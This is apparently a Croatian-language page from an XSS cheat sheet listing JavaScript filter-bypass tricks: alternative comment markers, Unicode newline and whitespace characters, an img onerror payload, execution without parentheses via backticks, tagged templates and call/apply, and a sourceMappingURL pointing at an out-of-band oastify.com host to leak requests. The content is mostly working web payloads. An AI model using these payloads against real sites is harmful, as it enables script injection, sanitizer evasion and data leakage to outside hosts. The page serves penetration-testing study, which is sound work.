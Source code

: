 **JavaScript komentari (iz trika** [**JavaScript komentari**](./#javascript-comments)**)**

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
<!--This is a 1line comment
#!This is a 1 line comment, but "#!" must to be at the beggining of the first line
-->This is a 1 line comment, but "-->" must to be at the beggining of the first line
```

**JavaScript nove linije (iz trika** [**JavaScript nove linije**](./#javascript-new-lines) **)**

```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10); alert('//\nalert(1)') //0x0a
String.fromCharCode(13); alert('//\ralert(1)') //0x0d
String.fromCharCode(8232); alert('//\u2028alert(1)') //0xe2 0x80 0xa8
String.fromCharCode(8233); alert('//\u2029alert(1)') //0xe2 0x80 0xa9
```

**JavaScript razmaci**

```javascript
log=[];
function funct(){}
for(let i=0;i<=0x10ffff;i++){
try{
eval(`funct${String.fromCodePoint(i)}()`);
log.push(i);
}
catch(e){}
}
console.log(log)
//9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```

**Javascript unutar komentara**

```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```

**JavaScript bez zagrada**

````javascript
// By setting location
window.location='javascript:alert\x281\x29'
x=new DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x
// or any DOMXSS sink such as location=name

// Backtips
// Backtips pass the string as an array of lenght 1
alert`1`

// Backtips + Tagged Templates + call/apply
eval`alert\x281\x29` // This won't work as it will just return the passed array
setTimeout`alert\x281\x29`
eval.call`${'alert\x281\x29'}`
eval.apply`${[`alert\x281\x29`]}`
[].sort.call`${alert}1337`
[].map.call`${eval}\\u{61}lert\x281337\x29`
````